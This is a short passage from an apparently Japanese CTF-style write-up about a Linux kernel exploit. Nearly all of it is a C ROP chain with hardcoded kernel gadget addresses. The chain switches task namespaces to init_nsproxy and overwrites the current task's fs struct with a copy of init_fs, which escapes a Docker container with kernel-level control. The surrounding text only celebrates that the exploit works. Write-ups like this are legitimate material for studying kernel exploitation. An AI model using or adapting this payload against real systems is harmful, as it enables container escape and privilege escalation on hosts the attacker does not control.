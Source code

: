 これだけ！やった〜〜〜〜。

```rop.c
  *rop++ = KADDR(0xffffffff81906510); // pop rdi
  *rop++ = 1; // init process in docker container
  *rop++ = KADDR(0xffffffff810e4fc0); // find_task_by_vpid
  *rop++ = KADDR(0xffffffff812c32a9); // pop rcx (to prevent later `rep`)
  *rop ++ = 0;
  *rop++ = KADDR(0xffffffff81a05e4b); // mov rdi, rax; rep movsq; (simple `mov rdi, rax` not found)
  *rop++ = KADDR(0xffffffff819b21d3); // pop rsi
  *rop++ = KADDR(0xffffffff8245a720); // &init_nsproxy
  *rop++ = KADDR(0xffffffff810ea4e0); // switch_task_namespaces

  *rop++ = KADDR(0xffffffff81906510); // pop rdi
  *rop++ = KADDR(0xffffffff82589740); // &init_fs
  *rop++ = KADDR(0xffffffff812e7350); // copy_fs_struct
  *rop++ = KADDR(0xffffffff8131dab0); // push rax; pop rbx

  *rop++ = KADDR(0xffffffff81906510); // pop rdi
  *rop++ = getpid();
  *rop++ = KADDR(0xffffffff810e4fc0); // find_task_by_vpid

  *rop++ = KADDR(0xffffffff8117668f); // pop rdx
  *rop++ = 0x6E0;
  *rop++ = KADDR(0xffffffff81029e7d); // add rax, rdx
  *rop++ = KADDR(0xffffffff817e1d6d); // mov qword [rax], rbx ; pop rbx ; ret ; (1 found)
  *rop++ = 0; // trash
```


## アウトロ

![uouo fish life](./full-exp.gif)

